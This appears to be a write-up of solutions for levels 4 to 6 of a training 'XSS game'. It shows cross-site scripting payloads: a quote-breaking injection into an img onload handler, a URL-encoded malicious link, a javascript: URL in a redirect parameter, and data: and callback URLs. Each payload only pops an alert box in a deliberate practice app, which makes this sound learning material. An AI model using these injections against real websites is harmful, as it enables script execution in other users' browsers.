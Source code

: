 ```yaml
---
title: XSS game v2
published: true 
tags: XSS
---
```


# Level 4
Firsty I spent some time getting to know how this app works. App flow can be described in following steps:
1. User gives a number of seconds, after that click the 'Create timer' button.
2. Page where timer run is shown up. After all, the user is redirected to the beginning.

Interesting part is timer image:
```html
<img src="/static/loading.gif" onload="startTimer('<user input>');">
```

An xss is possible because user input is directly passed to html code without any encoding. To call an alert box use following payload:
```
1');alert('1
```
Passing it to user input will create following img tag:
```html
<img src="/static/loading.gif" onload="startTimer('1');alert('1');">
```
It is a valid image tag, firstly will be executed startTimer function and after 1 second an alert box will appear on the screen. If you want create malicious link use url encoding:
```
https://xss-game.appspot.com/level4/frame?timer=%31%27%29%3b%61%6c%65%72%74%28%27%31
```

# Level 5
User input isn't processed, but in sign up page is interesting param in url:
```
https://xss-game.appspot.com/level5/frame/signup?next=confirm
```
Change 'confirm' to
```
javascript:alert(1)
```
then click next, alert box will be displayed.

# Level 6
It can be solved with following payload:
```
data:text/plain,alert('xss') 
or 
Https://google.com/jsapi?callback=alert
```
